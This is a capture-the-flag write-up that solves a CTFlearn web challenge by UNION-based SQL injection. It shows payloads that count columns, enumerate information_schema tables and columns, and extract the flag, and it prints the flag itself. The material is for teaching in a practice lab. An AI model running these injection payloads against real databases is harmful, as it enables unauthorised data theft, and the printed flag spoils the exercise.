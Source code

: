 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

![1](https://github.com/Knign/Write-ups/assets/110326359/26c58880-6263-475a-af38-6d87ebf8ed62)

## Determining the number of columns required
Let's find out how many columns this table has using the `NULL` values.
```
UNION SELECT NULL
UNION SELECT NULL,NULL
UNION SELECT NULL,NULL,NULL
```
When the number of `NULL` values matches the number of columns, the database returns a proper output.
```
1 UNION SELECT NULL, NULL, NULL, NULL
```

![2](https://github.com/Knign/Write-ups/assets/110326359/84ecfac8-9f9d-4452-a4ad-f65264c4500e)

So the current table has four columns.

## Finding all tables from the database
Now we want to find out the other tables so that we can figure out which one might be useful for us.

For that we can query `information_schema.tables` to list the tables in the database
```
1 UNION SELECT table_name, NULL, NULL, NULL FROM information_schema.tables
```

![3](https://github.com/Knign/Write-ups/assets/110326359/0cb54e5b-bad9-4ff1-b939-d16a7aa428c9)

```
Useful table: w0w_y0u_f0und_m3
```
## Finding all columns from w0w_y0u_f0und_m3
In order to find all the columns in the database we have to query `information_schema.columns`.
```
1 UNION SELECT column_name, NULL, NULL, NULL FROM information_schema.columns
```

![4](https://github.com/Knign/Write-ups/assets/110326359/5bb3157c-7686-4660-a9e8-8034c8d5d29a)

```
Useful column: f0und_m3
```
## Finding the flag
For the final step, we simply have to modify our query a little bit and select from `w0w_y0u_f0und_m3`.
```
1 UNION SELECT f0und_m3, NULL, NULL, NULL FROM w0w_y0u_f0und_m3
```

![5](https://github.com/Knign/Write-ups/assets/110326359/001e9b82-ab4d-4adb-83a4-c991a81d9cdc)

## Flag
```
CTFlearn{uni0n_1s_4_gr34t_c0mm4nd}
```
